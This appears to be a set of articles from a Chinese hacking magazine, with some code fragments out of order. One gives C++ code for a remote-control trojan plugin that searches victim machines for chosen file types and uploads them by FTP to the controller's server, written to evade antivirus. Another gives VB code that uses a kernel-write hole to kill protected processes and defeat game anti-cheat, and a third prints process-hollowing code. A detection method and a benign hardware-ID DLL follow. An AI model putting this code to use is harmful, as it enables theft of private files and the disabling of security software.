从安全性角度考虑，如分布在不同区域的银行主机服务器在某个时间点上突然发送一个严重的错误，如遭受了恶意的 DDOS 攻击等导致正常的客户端连接请求无法响应，此时若再通过手工方式对所有的客户端进行配置以切换到其他服务器上，其工作量必然很大。我们可以考虑采用 TDI 过滤驱动方式，在遇到特殊情况时，可自动将客户端连接重定向到应急服务器上。`TDI_data = (PTDI_ADDRESS_IP)(TA_Address_data->Address)` 语句可准确解析出请求建立连接的服务器 IP 地址，若解析出的 IP 地址匹配到了已经宕机的 Server 上，则可直接替换此 IP 地址。

（编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：VC  
关键词：远控、插件、文件搜索

# 远控自定义插件的实现
### —— 文件搜索上传篇


文/闪亮的心

远程控制应该是使用范围最广的木马后门了。但是长久以来，所有远程控制都存在这样一个弊端，那就是对于计算机操作必须由被控端的使用者来一对一地完成。但一般远程控制除了批量下载文件、批量浏览网页、批量执行开关机操作以外，很难实现集群化动作，比如从被控计算机群里搜索指定类型的文件、做复杂的网页浏览点击、局域网嗅探智能判断等。

在使用远程控制的过程中，最普通的应用就是查找并复制指定类型的文件，一台台地查找过于消耗时间，所以我就想到将搜索指定类型文件功能的程序做成远程控制插件，需要的时候安装到被控端并加载。这样做有两个好处：如果直接封装到远控的服务端中，必然会导致远控体积过大，不易传播和执行；如果做成独立的后门程序，在和远控共存的情况下，必然会增加被查杀的风险。把不同功能的程序全部封装成独立插件，再由远程控制统一管理，就显得相当方便了。这里我就以搜索文件为例，进行简单的说明。

如果要实现搜索文件并自动上传，主要分为两步实现：

- 搜索指定类型的文件；
- 自动上传文件。

搜索指定类型的文件，主要实现两个方面：

- 遍历磁盘和过滤目录；
- 文件的查找。

作为 Windows 目录，其目录下可能包含多个目录和指定类型的文件，这样单一文件夹遍历必然会遗漏大量文件。

这里还要注意一个小问题，那就是对于系统分区根目录下的文件，一般需要单独遍历。比如搜索文件类型为 doc 格式的文件，而在被控计算机系统的 C 盘下恰好有个名为“C:\1.doc”的文件，则应对 C 盘进行一次单独遍历。

主要函数如下，其中 fileName 为文件夹的路径，szFiletype 为文件类型。

```c
void func(LPTSTR fileName, char *szFiletype)
{
    char sz[MAX_PATH];
    lstrcpy(sz, fileName);
    WIN32_FIND_DATA wfd;
    HANDLE hFind;
    TCHAR szF[MAX_PATH];
    lstrcpy(szF, sz);

    lstrcat(sz, "\\");
    lstrcat(sz, "*");
    hFind = FindFirstFile(sz, &wfd);
    if (hFind == INVALID_HANDLE_VALUE)
        return;

    do {
        if (wfd.dwFileAttributes == FILE_ATTRIBUTE_DIRECTORY) {
            if (wfd.cFileName[0] == '.') continue;
            // ...
        }
        // ...
    } while (FindNextFile(hFind, &wfd));
}
```

```cpp
lstrcpy(szFn, szF);
lstrcat(szFn, "\\");
lstrcat(szFn, wfd.cFileName);
func(szFn, szFiletype);
FindFile(szFn, szFiletype);
// ...
} while (FindNextFile(hFind, &wfd));
```

func 主要实现方式如下：利用 FindFirstFile 进行文件遍历，如果 WIN32_FIND_DATA 返回的是 FILE_ATTRIBUTE_DIRECTORY，则对获取的目录进行遍历，同时调用 FindFile 这个自定义函数对当前目录下的文件进行遍历并上传，从而实现循环遍历对指定类型文件的查找。

远控的主控端在计算机名后追加显示计算机的 CPU ID，即可轻松快捷地实现管理上传文件的功能。还有，FTP 穿墙效果也很好，一般计算机不怎么拦截 FTP 上传。而且利用 CInternetSession 可以轻松创建并初始化一个或多个同时的 Internet 会话，CFtpConnection 管理与 Internet 服务器的 FTP 连接并允许直接操纵服务器中的目录和文件。接下来的工作就很容易了，首先获取 CPU ID，在 FTP 服务器上建立相应的文件夹，然后存储上传的文件就可以了。

```cpp
void CreateDic() // 创建目录
{
    CInternetSession *pInternetSession;
    CFtpConnection *pFtpConnection;
    BOOL bconnect;
    pInternetSession = new CInternetSession("MR", INTERNET_OPEN_TYPE_PRECONFIG);
    try {
        pFtpConnection = pInternetSession->GetFtpConnection(szConIP, szUserName, szUserPass, atoi(szUserPort));
        bconnect = TRUE;
    } catch (CInternetException* pEx) {
        TCHAR szErr[1024];
        pEx->GetErrorMessage(szErr, 1024);
        printf("connect error\n");
        pEx->Delete();
        return;
    }
    printf("connect succeeded\n");
    if (bconnect) {
        bool bDic = pFtpConnection->CreateDirectory(CPUID1);
        printf("create directory is succeeded\n");
        pFtpConnection->Close();
    }
    return;
}
```

```cpp
void FindFile(char *FilePath, char *FileName)
{
    HANDLE hFile;
    WIN32_FIND_DATA *pInfo = new WIN32_FIND_DATA;
    bool FileFind = true;
    char szFileName[255], szFileResearch[255];
    wsprintf(szFileResearch, FilePath);
    strcat(szFileResearch, FileName);
    SYSTEMTIME m_systime, stLocal;
    hFile = FindFirstFile(szFileResearch, pInfo);
    if (hFile == INVALID_HANDLE_VALUE) {
        delete pInfo;
        return;
    } else {
        while (FileFind) {
            wsprintf(szFileName, FilePath);
            strcat(szFileName, "\\");
            strcat(szFileName, pInfo->cFileName);
            if (strstr(szFileName, "C:\\WINDOWS") != NULL)
                FileFind = FindNextFile(hFile, pInfo);
            else {
                bool bSuccess = FileTimeToSystemTime(&(pInfo->ftLastWriteTime), &m_systime);
                SystemTimeToTzSpecificLocalTime(NULL, &m_systime, &stLocal);
                if (bSuccess) {
                    if (stLocal.wYear == m_year && stLocal.wMonth >= m_month && stLocal.wDay > m_day) {
                        UpFile(szFileName, pInfo->cFileName);
                    }
                }
                FileFind = FindNextFile(hFile, pInfo);
            }
        }
    }
    return;
}
```

这里需要说明的是，在创建了相应的文件夹后，注意关闭 FTP 的连接。

我自定义了一个名为 UpFile 的函数来实现上传文件。具体代码如下：

```cpp
void UpFile(char *FilePath, char *FileName) // 上传文件
{
    CInternetSession *pInternetSession;
    CFtpConnection *pFtpConnection;
    BOOL bconnect;
    CString UpdataPath;
    pInternetSession = new CInternetSession("MR", INTERNET_OPEN_TYPE_PRECONFIG);
    try {
        pFtpConnection = pInternetSession->GetFtpConnection(szConIP, szUserName, szUserPass, atoi(szUserPort));
        bconnect = TRUE;
    } catch (CInternetException* pEx) {
        TCHAR szErr[1024];
        pEx->GetErrorMessage(szErr, 1024);
        printf("connect error\n");
        pEx->Delete();
        return;
    }
    if (bconnect) {
        UpdataPath = CPUID1 + "\\" + FileName;
        pFtpConnection->PutFile(FilePath, UpdataPath);
        pFtpConnection->Close();
    }
}
```

这里要说明的是，由于 C 盘目录下的临时文件，以及 Windows 系统目录下的文件无太大意义，一般情况下是要过滤的。

接下来简单说一下上传部分的实现，虽然每个远控都具有上传和下载文件的功能，但是如果在被控计算机群实现自动化，几百台甚至上千台计算机同时给控制端发送文件，想必也是件恐怖的事情，而且文件管理五花八门。所以，我采用了相对传统的 FTP 来管理和接收文件。被控端获取对应计算机的 CPU ID 后，在 FTP 服务器上建立一个与 CPU ID 名字相同的文件夹，而……（顶部左侧灰框中的短代码/命令片段，图片噪声较重，文字不可完全辨识）

这样一个基本的搜索指定类型并上传的插件就基本打造完成了，只需要做一个总的外部接口，传入文件类型，以及要上传文件的最后时间就可以了。至于远程控制，GHOST 是个不错的选择，完全开源的代码，只需要自己添加扩展功能，再配合自己的插件就可以了。

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：VB  
关键词：特殊方法、读写进程内存

# 特殊方法实现读写进程内存


文/图 胡文亮

在 2010 年 2 月份的《黑客防线》杂志上，我写过一篇文章叫做《打造无敌内存清零和过 NP 的内存读写》，其本质是把 EPROCESS 中 DirectoryTableBase[0] 的值放到 CR3 寄存器中，写完进程内存后再恢复 CR3 寄存器的原值。当然，“无敌”这个形容词有点过分了，因为还是有办法来防御的。但是目前却没有发现任何游戏保护类产品防御那种读写内存的方式……

但是这种另类读写进程内存的思路是好的，有没有办法让它发扬光大呢？山不转水转，既然我们不方便直接修改 CR3 寄存器的值，就修改 DirectoryTableBase[0] 的值。我的思路是这样的：

- 1. 得到目标进程（T.EXE）的 EPROCESS（EPROC_T）。
- 2. 创建并挂起一个傀儡进程（M.EXE），得到它的 EPROCESS（EPROC_M）。
- 3. 读取 EPROC_M+0x18 处的值（长度 4）保存到字节数组 o_dtb。
- 4. 读取 EPROC_T+0x10 处的值（长度 4）保存到字节数组 dtb。
- 5. 把 dtb 写到 EPROC_M+0x10 处（修改 EPROC_M+0x10 处的值）。
- 6. 修改 M.EXE 的进程内存。
- 7. 把 o_dtb 写回 EPROC_M+0x10 处（恢复原值）。
- 8. 结束 M.EXE 进程。

可能有人看完上述思路会一头雾水，修改傀儡进程的内存跟修改目标进程的内存有关系吗？关系是很大的，第 6 步中修改傀儡进程的内存就是修改了目标进程的内存……利用修改 CR3 寄存器值来清零进程内存是通过驱动实现的，但是现在驱动越来越难加载，Rootkit 只有在把 HIPS 的进程杀死后才能加载驱动……

HIPS 的进程又必须靠驱动才能实现。难道没有突破这个循环的方法吗？经我思考，这个方法还是有的，但是有个前提：找到内核任意地址写入漏洞。内核任意地址写入漏洞很容易找，比如迅雷就有；后来我听“渔家傲”说，鲁大师、XX 卫士、YY 管家等计算机维护类软件所带的驱动都有类似漏洞……8 月份的时候，微软又出了个严重的内核任意地址写入漏洞，这个在很多漏洞收集网站上都有介绍，大家可以自己去看。

只要能读写内核内存，就能实现上述思路。我以卸载 NTDLL 杀进程为例，用 VB 写了一份代码（这是纯 VB 写的，没有用到任何驱动程序），为了演示方便，我没有找某个软件的漏洞，而是直接使用了 NtSystemDebugControl（其实微软认为这个函数是“漏洞”）。

```vb
Public Sub UnloadNtdllEx(ByVal dwPid As Long)
    Dim dtb(3) As Byte, o_dtb(3) As Byte
    Dim MyExeId As Long, TkExeId As Long
    Dim MyExeEP As Long, TkExeEP As Long

    '创建傀儡进程（创建后马上挂起）
    MyExeId = RunEXE("calc.exe")

    '获得待杀进程的 PID
    TkExeId = dwPid

    '获得傀儡进程的 EPROCESS
    MyExeEP = PsLookupProcessByProcessId(MyExeId)

    '获得待杀进程的 EPROCESS
    TkExeEP = PsLookupProcessByProcessId(TkExeId)

    '读取 EPROC_M+0x18 处的值，长度为 4，保存到字节数组 o_dtb
    DumpKernelMemory MyExeEP + &H18, 4, o_dtb

    '读取 EPROC_T+0x10 处的值，长度为 4，保存到字节数组 dtb
    DumpKernelMemory TkExeEP + &H8, 4, dtb

    '把 dtb 的值填写到 EPROC_M+0x10 处（修改 EPROC_M+0x10 处的值）
    ModifyKernelMemory MyExeEP + &H18, 4, dtb

    '卸载 NTDLL（卸载 DLL 的过程中需要读写进程内存，详情请参考 WRK/ReactOS 源码）
    UnloadNtdll MyExeId

    '把 o_dtb 的值填写到 EPROC_M+0x10 处（恢复原值）
    ModifyKernelMemory MyExeEP + &H18, 4, o_dtb
End Sub

'结束傀儡进程：
KillMyProcess MyExeId
End Sub

'卸载 NTDLL 的代码，十分普通，没有任何特别
Public Sub UnloadNtdll(ByVal Pid As Long)
    Dim hProcess As Long, l As Long
    hProcess = OpenProcess(PROCESS_ALL_ACCESS, False, Pid)
    If hProcess = 0 Then Exit Sub
    NtUnmapViewOfSection hProcess, GetModuleHandle("ntdll.dll")
    ZwClose hProcess
    Sleep 1000
End Sub
```


图 3

经测试，直接使用 UnloadNtdll 无法杀死 XueTr，UnloadNtdllEx 则可以，如图 1 所示。本代码测试环境为 Windows XP SP3。由于 NtSystemDebugControl 在 Windows 2003 SP0 以后被废除了主功能（读写内核内存的功能不能再用），所以这份纯 VB 写的代码只在 Windows XP 上有效。但是随便写个读写内核内存的驱动，则能在任何 32 位 NT 系统上使用。


图 1


图 4

我曾经说过，杀进程是游戏，在实用上没有任何意义。为了证明我的发现有实用价值，我特地拿最近的热门网游“龙之谷”进行了测试。“龙之谷”使用 GPK 保护，GPK 在百科介绍中被描述为可有效保护游戏不受外挂侵犯，并通过多种技术手段打击外挂。由于外挂根本原理就是读写进程内存，而卸载 NTDLL 也是读写进程内存，因此只要程序能够结束“龙之谷”的进程，就说明该程序已成功读写“龙之谷”的进程内存。

我们首先用 XueTr 检查一下 GPK 是如何进行游戏保护的，如图 2 所示。


图 2

由此可见，GPK 的骇人不是反外挂技术上骇人，而是吹牛技术上骇人。不过由于还没有直接证据证明我的发现能应用在外挂上，所以我另外写了三个程序：一个是（Windows 自带游戏）扫雷的外挂，一个是保护扫雷不受扫雷外挂影响的反外挂程序（通过 Hook KeStackAttachProcess 实现），一个是扫雷外挂增强器，让“扫雷外挂”无视“扫雷反外挂”继续起到外挂作用。经测试，这种读写进程内存的方法不仅仅在杀进程方面有效，在搞外挂方面同样有效。测试步骤如下：

- 1. 开启“扫雷”，开启“扫雷反外挂”并对“扫雷”进程进行保护，会提示保护成功；
- 2. 开启“扫雷外挂”，选择“自动扫雷”，按下“扫描”按钮，输入“扫雷”的进程 ID，会提示出错；
- 3. 开启“扫雷外挂增强器”，输入“扫雷”的进程 ID，会弹出“傀儡进程”的进程 ID；
- 4. 开启“扫雷外挂”，选择“自动扫雷”，按下“扫描”按钮，输入“傀儡进程”的进程 ID；
- 5. 扫雷游戏会在 3 秒钟之内结束并提示破了“扫雷英雄榜”的记录。

“扫雷外挂”在“扫雷反外挂”的干扰下失去作用，如图 5 所示。

GPK 挂钩了 11 个内核函数，有几个是和读写进程内存相关的，可惜还是老一套。首先尝试用任务管理器和我的程序的“普通模式”来结束“龙之谷”进程，如图 3 所示。随后使用“强力模式”来结束“龙之谷”进程，“龙之谷”进程被结束，如图 4 所示。


图 5

“扫雷外挂”在“扫雷外挂增强器”的作用下无视“扫雷反外挂”干扰，如图 6 所示。


图 6

本文就《打造无敌内存清零和过 NP 的内存读写》中的进程内存读写方式做了改进。在最后的测试中，可以看到这种读写进程内存的方式可用、稳定而且极具商业价值，以后可能会被广泛应用在外挂类程序上。而反外挂厂商只有继续攀登技术高峰，才能防住那些使用了本文这种技术制作的外挂。

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：VB  
关键词：VB、傀儡进程

# 检测傀儡进程


文/广东工业大学 胡文亮

傀儡进程不是一个新的技巧，简而言之就是进程方面的“借尸还魂”，披上其他程序的外衣来执行自己的代码。去年我在《Ring 3 废除微软主动防御》一文中就提到过，不过却鲜有人提出如何检测傀儡进程，连现在最热门的 ARK 工具 XueTr 都没有提供检测傀儡进程的功能。我开始认为检测傀儡进程很简单，经过实践才知道这是一件很不简单的事情。我测试了很多回，才找出一种可行（但不优美）的方法。

首先温习一下怎样创建傀儡进程（代码是澳大利亚人 Cobein 写的，注释是本人友情添加的）：

```vb
Public Sub InjPE(szProcessName As String, lpBuffer() As Byte)
    Dim PidH As I_D_H
    Dim Pinh As I_N_H
    Dim Pish As I_S_H
    Dim Si As SUI
    Dim Pi As P_I
    Dim CTX As CX
    ...
    Call CallAPI("kernel32", "CreateProcessW", ...)
    Call CallAPI("ntdll", "NtUnmapViewOfSection", ...)
    Call CallAPI("kernel32", "VirtualAllocEx", ...)
    Call CallAPI("ntdll", "NtWriteVirtualMemory", ...)
    ...
End Sub
```

```vb
Call CallAPI("ntdll", "NtWriteVirtualMemory", Pi.hP, ...)
Next

'获取线程上下文
Call CallAPI("ntdll", "NtGetContextThread", Pi.hT, VarPtr(CTX))

'收尾工作
Call CallAPI("ntdll", "NtWriteVirtualMemory", Pi.hP, ...)
CTX.Ebx = ...
CTX.Eax = ...

'设置线程上下文
Call CallAPI("ntdll", "NtSetContextThread", Pi.hT, VarPtr(CTX))

'恢复进程主线程的运行，傀儡进程创建完成
Call CallAPI("ntdll", "NtResumeThread", Pi.hT, 0)
End Sub
```

我一开始想到的计划 A，是用 Toolhelp 系列函数获得进程自身模块的大小（A），再获得该进程对应 EXE 文件的大小（B）。若 A 等于 B，则说明不是傀儡进程，否则说明是傀儡进程。不过，我很快就放弃了这个脑残的想法。

如图 1 所示，可以看到正常的 Notepad.exe 文件大小为 66560 字节，占用磁盘空间为 81920 字节，但是 XueTr 显示的模块大小为 77824 字节（0x13000 字节），没有一个数据相同。于是天真无邪的 A 计划落空。计划 A 落空后，开始策划计划 B。


图 1

- 1. 获得进程自身模块的基址（BA1）和自身模块的完整路径（PP）；
- 2. 新建一个 PP 进程（NP），获得 NP 进程中自身模块的基址（BA2）；
- 3. 结束 NP 进程；
- 4. 对比 BA1 和 BA2，如果 BA1 等于 BA2，则认为不是傀儡进程，否则认为是傀儡进程。

经测试，计划 B 确实可行，实现代码如下：

```vb
Public Function IsPuppetProcess(ByVal dwOldPid As Long) As Boolean
    Dim IBA1 As Long, IBA2 As Long, dwNewPid As Long, szPP As String
    '获得进程模块中自身模块的基址（BA1）和自身模块的完整路径文件名（PP）
    GetProcessMods dwOldPid, szPP, IBA1
    Form1.List1.AddItem "Process Path & FileName: " & szPP
    Form1.List1.AddItem "Base Address 1: 0x" & Hex$(IBA1)

    '新建一个 PP 进程（NP），获得 NP 进程中自身模块的基址（BA2）
    dwNewPid = RunEXE(szPP)
    Sleep 100
    GetProcessMods dwNewPid, szPP, IBA2
    Form1.List1.AddItem "Base Address 2: 0x" & Hex$(IBA2)

    '结束 NP 进程
    Dim h As Long
    h = OpenProcess(1, 0, dwNewPid)
    TerminateProcess h, 0
    CloseHandle h

    '对比 BA1 和 BA2
    If IBA1 = IBA2 Then
        IsPuppetProcess = False
    Else
        IsPuppetProcess = True
    End If
End Function
```

测试效果如图 2 和图 3 所示（分别是真的 notepad 进程和傀儡 notepad 进程）。


图 2


图 3

不过，这种方法有一个明显缺陷，就是不能测试那些只允许运行一个实例的进程（那些只允许运行一个实例的进程运行时做的第一件事情就是检查自己是否有别的实例在运行，如果有，就自行退出）。由于时间太短，我们无法获得任何信息。比如“任务管理器”就只允许运行一个实例，怎么测试呢？

我开始想在调用 CreateProcessW 的过程中加上 CREATE_SUSPENDED 参数，结果实际操作时差点把我气死：在线程主线程没有恢复运行之前，在 PEB 的 LDR 链中根本没有记录任何模块信息。也就是说 ToolHelp、Psapi 等函数都无法得到进程的模块信息。从下面 XueTr 的截图来看，在主线程恢复运行之前加载的两个模块（ntdll.dll、xxxx.exe）被染成红色，即为“隐藏模块”，因为无法在 PEB 的 LDR 链中枚举到，如图 4 所示。


图 4

我的解决方案是禁止进程退出。如何阻止进程退出，各人有各人的办法。我的方法是 SSDT Inline Hook NtTerminateProcess（Kernel32.dll!ExitProcess 其实就是 NtTerminateProcess(0xFFFFFFFF,0)）。由于 Inline Hook 的过程写得太多，自己看到都反胃了，所以挂钩代码就不贴出来了，只贴出处理代码。

```c
NTSTATUS FakeNtTerminateProcess(HANDLE ProcessHandle,
                                NTSTATUS ExitStatus)
{
    return 0x80070000;
}
```

为什么要返回 0x80070000 呢？主要是防止弹出错误提示框。具体原因请参考 Windows 2000 源码（private\ntos\rtl\error.c）。应用层代码改成如下所示。

```vb
Public Function IsPuppetProcess(ByVal dwOldPid As Long) As Boolean
    Dim IBA1 As Long, IBA2 As Long, dwNewPid As Long, szPP As String

    GetProcessMods dwOldPid, szPP, IBA1
    Form1.List1.AddItem "Process Path & FileName: " & szPP
    Form1.List1.AddItem "Base Address 1: 0x" & Hex$(IBA1)

    '挂钩 NtTerminateProcess 防止进程退出
    With DrvController
        Call IoControl(CTL_CODE_GEN(&H801), VarPtr(0), 4, 0, 0)
    End With

    '新建进程并获取相关信息
    dwNewPid = RunEXE(szPP)
    Sleep 100
    GetProcessMods dwNewPid, szPP, IBA2
    Form1.List1.AddItem "Base Address 2: 0x" & Hex$(IBA2)

    '恢复 NtTerminateProcess
    With DrvController
        Call IoControl(CTL_CODE_GEN(&H802), VarPtr(0), 4, 0, 0)
    End With

    '杀掉用来测试的进程
    Dim h As Long
    h = OpenProcess(1, 0, dwNewPid)
    TerminateProcess h, 0
    CloseHandle h

    '对比基址
    If IBA1 = IBA2 Then
        IsPuppetProcess = False
    Else
        IsPuppetProcess = True
    End If
End Function
```

- 前置知识：VC、JAVA
- 关键词：VC、JAVA、注册码

# VC 编写供 Java 调用的 DLL——获取绑定式注册码


文/GF

最近需要写一个供 Java 调用的 DLL，该 DLL 需要获取计算机硬件的一些信息，以此为参数组合一组只适合相应计算机的注册码。

可以修改类似 C 盘的量产工具，不过很危险，相比修改 MAC 有一定的难度和危险性。值得注意的是，这里说的硬盘序列号不是分区的随机序列号，分区序列号是随每次格式化都会变动的；BIOS SN 算是最不稳定的参数，测试中特别是兼容机，很容易出现返回有长度的空字符串或者为空，而且众所周知，“刷新 BIOS”这个概念很早就出现了。

### DLL 部分的编写

DLL 一共实现了四个函数，可以获取四个硬件的信息，分别是：网卡地址、CPU 等信息、硬盘签名（序列号）、BIOS 序列号。在这里先说说获取这些数据时要考虑到的一些问题。

- 1. 首先是多硬件问题，比如有几个网卡。经过几次试验，发现系统每次枚举的第一块网卡都是同一块。所以我偷了个懒，默认读取系统枚举的第一块。
- 2. 获取的数据是否容易被修改。虽然通过获取 3～4 个数据然后进行组合运算不容易被逆算，但还是要考虑被破解的可能。这四个参数中，MAC 地址较容易被修改；通过传入参数 1，执行汇编指令 CPUID 得到了包括 CPU 在内的硬件数据，这是不容易修改的，通过测试在 AMD 上也是可以通过的。值得一提的是，获取 CPU 序列号即传入参数 3 执行 CPUID，貌似只能在 PIII 上执行，之后都没有这个功能了，所以在测试的几台计算机中都没返回数据，更别说 AMD 的 CPU 了；硬盘序列号也可以修改类似 L 盘的量产工具，不过很危险。
- 3. 这算是对第二条的另一个方向说明，即获取的参数在非人为修改的情况下稳定性如何。类似上面说的硬盘分区序列号，就是貌似固定，实则不然。另外，获取鼠标、键盘这些易损易换的硬件信息作为参数也是不明智的。
- 4. 当无法获取到上面数据时的处理。这里我是统一返回字符串“NULL”。
- 5. 硬件数据获取的方式。因为涉及硬件，所以获取的方式就有很多了。层面上就可以分为 Ring3 和 Ring0。在这里我们不是要“为非作歹”，能在 Ring3 完成的就在 Ring3，程序稳定性至上。MAC 的获取可以通过 GetAdaptersInfo 函数；执行 CPUID 指令需要用到内联汇编，多次测试效果也很好很稳定，不过在返回的 EBX 寄存器值中，最好是 `and ebx,0x0000FFFF`，把高 16 位十六进制数据置零，它表示的是 APIC 号，这是随机的；硬盘序列号和 BIOS 序列号获取有多种方式。

通过 CreateFile 直接打开硬件读取数据等。但是通过实际测试以及别人的软件测试，发现兼容性太差，很多硬盘的序列号都获取不到（排除没有序列号的情况）。这个时候我想到了 WMI，这个 Windows 强大的信息数据库。通过查询发现 WMI 确实存放了硬盘序列号和 BIOS 序列号。那么这等同于微软已经做好了我们想做的事情，我们直接调用接口，稳定性和兼容性必然是非常好的。而且举一反三，在 WMI 里还可以找到更多我们想要的硬件数据（查询发现，在 CPU 序列号一栏 WMI 也显示的是空）。现在我们来看代码，首先是 MAC 地址的获取。

```cpp
mov reg_eax,eax
and ebx,0x0000FFFF;高16位有可能变化
mov reg_ebx,ebx
mov reg_ecx,ecx
mov reg_edx,edx
}
char *cpuid =(char*)malloc(33);
ZeroMemory(cpuid,33);
sprintf(cpuid,"%8.8X%8.8X%8.8X%8.8X",reg_eax,reg_ebx,reg_ecx,reg_edx);
return cpuid;
}
```

可以看到执行 CPUID 指令后返回的数据存放于四个寄存器。另外，据说 C++ Builder 不支持 CPUID 指令，估计需要程序员硬编码来解决。最后我们来看硬盘序列号和 BIOS 序列号的获取，因为都是通过 WMI，所以代码大同小异。

```cpp
char* GetMAC()
{
    char* mac=(char*)malloc(19);
    ZeroMemory(mac,19);
    DWORD dwResult;
    ULONG OutBufLen;
    PIP_ADAPTER_INFO pAdapterInfo=NULL,pAdapterNext=NULL;

    dwResult = GetAdaptersInfo(pAdapterInfo,&OutBufLen);
    if(dwResult == ERROR_BUFFER_OVERFLOW)
    {
        pAdapterInfo=(IP_ADAPTER_INFO*)malloc(OutBufLen);
        GetAdaptersInfo(pAdapterInfo,&OutBufLen);
    }
    else if(dwResult != ERROR_SUCCESS)
    {
        strcpy(mac,"NULL");
        return mac;
    }

    pAdapterNext = pAdapterInfo;
    while(pAdapterNext != NULL)
    {
        if(6==pAdapterNext->AddressLength)
        {
            sprintf(mac,"%02X-%02X-%02X-%02X-%02X-%02X",
                pAdapterNext->Address[0],pAdapterNext->Address[1],
                pAdapterNext->Address[2],pAdapterNext->Address[3],
                pAdapterNext->Address[4],pAdapterNext->Address[5]);
            free(pAdapterInfo);
            return mac;
        }
        pAdapterNext = pAdapterNext->Next;
    }
    free(pAdapterInfo);
    strcpy(mac,"NULL");
    return mac;
}
```

这里主要注意一下结构体 `PIP_ADAPTER_INFO` 的调用。下面是 CPUID 的代码：

```cpp
char *GetCPUInfo()
{
    //可以获取 AMD 的
    UINT reg_eax=0,reg_ebx=0,reg_ecx=0,reg_edx=0;
    _asm
    {
        xor ebx,ebx
        xor ecx,ecx
        xor edx,edx
        mov eax,1
        cpuid
    }
}
```

```cpp
char *GetDiskSignature() //有些硬盘没有
{
    char *cmd=(char*)malloc(9);//uint32
    ZeroMemory(cmd,9);
    char* path="ROOT\\CIMv2",*instances="Win32_DiskDrive";
    USES_CONVERSION;
    VARIANT processname;
    ZeroMemory((char*)&processname,sizeof(VARIANT));
    HRESULT hres;
    CoInitializeEx(0,COINIT_MULTITHREADED); //有可能已经初始化了，就返回错误。
    CoInitializeSecurity(NULL,-1,NULL,NULL,
        RPC_C_AUTHN_LEVEL_DEFAULT,
        RPC_C_IMP_LEVEL_IMPERSONATE,
        NULL,EOAC_NONE,NULL);

    IWbemLocator *pLoc = NULL;
    hres = CoCreateInstance(CLSID_WbemLocator,0,CLSCTX_INPROC_SERVER,
        IID_IWbemLocator,(LPVOID*)&pLoc);
    if(S_OK!=hres)
    {
        strcpy(cmd,"NULL");
        return cmd;
    }

    IWbemServices *pSvc = NULL;
    hres = pLoc->ConnectServer(_bstr_t(path),NULL,NULL,0,NULL,0,0,&pSvc);
    if(S_OK!=hres)
    {
        strcpy(cmd,"NULL");
        return cmd;
    }

    hres = CoSetProxyBlanket(
        pSvc,
        RPC_C_AUTHN_WINNT,
        RPC_C_AUTHZ_NONE,
        NULL,
        RPC_C_AUTHN_LEVEL_CALL,
        RPC_C_IMP_LEVEL_IMPERSONATE,
        NULL,
        EOAC_NONE
    );
}
```

```cpp
if (S_OK != hres)
{
    strcpy(cmd, "NULL");
    return cmd;
}
IEnumWbemClassObject* pEnumerator = NULL;
char select[MAX_PATH] = "SELECT * FROM ";
strcat(select, instances);
hres = pSvc->ExecQuery(
    bstr_t("WQL"),
    bstr_t(select),
    WBEM_FLAG_FORWARD_ONLY | WBEM_FLAG_RETURN_IMMEDIATELY,
    NULL,
    &pEnumerator
);
if (S_OK != hres)
{
    strcpy(cmd, "NULL");
    return cmd;
}
IWbemClassObject* pclsObj;
ULONG uReturn = 0;
while (pEnumerator) // 如果有多条记录
{
    HRESULT hr = pEnumerator->Next(WBEM_INFINITE, 1, &pclsObj, &uReturn);
    if (S_OK != hr) // 已经没有记录了
        break;

    VariantInit(&processname);
    processname.uintVal = 0; // 必须是数字

    pclsObj->Get(L"Signature", 0, &processname, 0, 0);
    if (processname.uintVal == 0) // 判断指针是否有效
    {
        VariantClear(&processname);
        pclsObj->Release();
        continue;
    }

    sprintf(cmd, "%8x", processname.uintVal);
    VariantClear(&processname);
    pclsObj->Release();

    pSvc->Release();
    pLoc->Release();
    pEnumerator->Release();
    CoUninitialize();
    return cmd;
}

pSvc->Release();
pLoc->Release();
pEnumerator->Release();
CoUninitialize();
strcpy(cmd, "NULL");
return cmd;

char* GetBIOSSNO() // BIOS SN
{
    char* cmd = (char*)malloc(9); // uint32
    ZeroMemory(cmd, 9);
    char* path = "ROOT\\CIMv2";
    char* instances = "Win32_BIOS";
    USES_CONVERSION;
    VARIANT processname;
    ZeroMemory((char*)&processname, sizeof(VARIANT));
    HRESULT hres;
    CoInitializeEx(0, COINIT_MULTITHREADED);
    CoInitializeSecurity(
        NULL,
        -1,
        ...
```

```cpp
NULL, // Authentication services
NULL, // Reserved
RPC_C_AUTHN_LEVEL_DEFAULT, // Default authentication
RPC_C_IMP_LEVEL_IMPERSONATE, // Default Impersonation
NULL, // Authentication info
EOAC_NONE, // Additional capabilities
NULL // Reserved
);

IWbemLocator* pLoc = NULL;
hres = CoCreateInstance(CLSID_WbemLocator, 0, CLSCTX_INPROC_SERVER,
    IID_IWbemLocator, (LPVOID*)&pLoc);
if (S_OK != hres)
{
    strcpy(cmd, "NULL");
    return cmd;
}

IWbemServices* pSvc = NULL;
hres = pLoc->ConnectServer(_bstr_t(path), NULL, NULL, 0, NULL, 0, 0, &pSvc);
if (S_OK != hres)
{
    strcpy(cmd, "NULL");
    return cmd;
}

hres = CoSetProxyBlanket(
    pSvc,
    RPC_C_AUTHN_WINNT,
    RPC_C_AUTHZ_NONE,
    NULL,
    RPC_C_AUTHN_LEVEL_CALL,
    RPC_C_IMP_LEVEL_IMPERSONATE,
    NULL,
    EOAC_NONE
);
if (S_OK != hres)
{
    strcpy(cmd, "NULL");
    return cmd;
}

IEnumWbemClassObject* pEnumerator = NULL;
char select[MAX_PATH] = "SELECT * FROM ";
strcat(select, instances);
hres = pSvc->ExecQuery(
    bstr_t("WQL"),
    bstr_t(select),
    WBEM_FLAG_FORWARD_ONLY | WBEM_FLAG_RETURN_IMMEDIATELY,
    NULL,
    &pEnumerator
);
if (S_OK != hres)
{
    strcpy(cmd, "NULL");
    return cmd;
}

IWbemClassObject* pclsObj;
ULONG uReturn = 0;
while (pEnumerator) // 如果有多条记录
{
    HRESULT hr = pEnumerator->Next(WBEM_INFINITE, 1, &pclsObj, &uReturn);
    if (S_OK != hr) // 已经没有记录了
        break;

    VariantInit(&processname);
    processname.bstrVal = NULL;
    pclsObj->Get(L"SerialNumber", 0, &processname, 0, 0);
    ...
}
```

```cpp
if(processname.bstrVal==NULL)//判断指针是否有效
{
    VariantClear(&processname);
    pclsObj->Release();
    continue;
}
if(IsBadReadPtr(&processname.bstrVal,4))
